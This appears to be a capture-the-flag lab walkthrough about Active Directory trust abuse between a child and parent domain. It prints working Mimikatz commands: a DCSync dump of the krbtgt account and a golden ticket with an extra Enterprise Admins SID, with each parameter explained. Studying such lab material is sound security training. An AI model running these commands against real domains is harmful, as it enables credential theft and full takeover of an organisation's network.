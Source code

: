 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  - [Question 2](#question-2)
    - [The way to hack](#the-way-to-hack-1)
    - [Answer](#answer-1)
  - [Question 3](#question-3)
    - [The way to hack](#the-way-to-hack-2)
    - [Answer](#answer-2)
  
## Question 1

### The way to hack

- I import module and using the function in module to get the SID of child domain.
  ![Picture](../../Image/Why%20So%20Trusting/5.png)

### Answer

![Picture](../../Image/Why%20So%20Trusting/6.png)

## Question 2

### The way to hack

- The command "lsadump::dcsync /user:LOGISTICS\krbtgt" is used in the Mimikatz tool, a popular tool in the field of penetration testing and security testing. This command is used to perform a specific attack called DCSync.
- DCSync is an attack technique in an Active Directory environment where an attacker uses his authority to request security data of a specific user account from a domain controller server. In this case, the above command requires the security data of the account "krbtgt" in the LOGISTICS domain.
![Picture](../../Image/Why%20So%20Trusting/7.png)

### Answer

![Picture](../../Image/Why%20So%20Trusting/8.png)

## Question 3

### The way to hack

- We use ls to check that we cannot access.
![Picture](../../Image/Why%20So%20Trusting/9.png)
- - We use a command.
- Payload:
  - `kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt`
- Command "kerberos::golden /ser:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050 -3880317879-2865463114-519 /ptt" is also a command in the Mimikatz engine and is used to perform an attack called Golden Ticket Attack.
- In the above command:
  - /user:hacker: Defines a fake user account name as "hacker".
  - /domain:LOGISTICS.INLANEFREIGHT.LOCAL: Specifies the domain name "LOGISTICS.INLANEFREIGHT.LOCAL".
  - /sid:S-1-5-21-2806153819-209893948-922872689: Defines the Security Identifier (SID) for the domain.
  - /krbtgt:9d765b482771505cbe97411065964d5f: Defines the NTLM (NT LAN Manager) key for the account "krbtgt".
  - /sids:S-1-5-21-3842939050-3880317879-2865463114-519: Defines a list of SIDs that the rogue account will have access to.
  - /ptt: Put the fake session into memory (Pass-The-Ticket).
  - With the above command, the attacker creates a fake session (golden ticket) for the "hacker" account with the same permissions and authorization as the top-level account in the domain "LOGISTICS.INLANEFREIGHT.LOCAL".
  ![Picture](../../Image/Why%20So%20Trusting/10.png)
- Now we check and we see that we can access this folder.
  ![Picture](../../Image/Why%20So%20Trusting/11.png)
- So just cd and get the flag.
  ![Picture](../../Image/Why%20So%20Trusting/12.png)

### Answer

![Picture](../../Image/Why%20So%20Trusting/13.png)
